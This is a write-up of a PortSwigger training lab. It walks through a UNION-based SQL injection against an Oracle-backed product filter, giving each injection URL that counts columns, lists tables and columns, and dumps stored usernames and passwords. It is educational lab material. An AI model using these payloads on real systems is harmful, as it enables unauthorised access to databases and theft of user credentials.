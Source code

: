 ```yaml
---
title: PortSwigger - SQLi 10 - Listing contents on Oracle DB
date: 2023-05-17
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the ``administrator`` user.

## ✅ Solution

Find the number of columns:

````text
<website>/filter?category=Gifts'UNION SELECT NULL FROM DUAL--                 # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL FROM DUAL--            # works 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL FROM DUAL--       # error!  
````

We know 2 columns are returned by the query. Is one containing string?

````text
<website>/filter?category=Gifts'UNION SELECT 'abc',NULL FROM DUAL--        # works
<website>/filter?category=Gifts'UNION SELECT 'abc','abc' FROM DUAL--       # works
````

We don't know the name of the table storing the credentials. We have to list all the tables:

````text
<website>/filter?category=Gifts'UNION SELECT table_name,NULL FROM all_tables--
````

75 table names are displayed. A quick sort make `USERS_OPLMGY` stands out. Time to find the column names inside.

> I didn't find it first try! I had to look on internet and I found that I have to query the table `USER_TAB_COLUMNS`.

````text
<website>/filter?category=Gifts'UNION SELECT column_name,NULL FROM USER_TAB_COLUMNS WHERE table_name='USERS_OPLMGY'--
````

We obtain `USERNAME_JIHLXR` and `PASSWORD_DNJXFC`.

````text
<website>/filter?category=Gifts'UNION SELECT USERNAME_JIHLXR,PASSWORD_DNJXFC FROM USERS_OPLMGY--
````

That's how I solved this challenge!
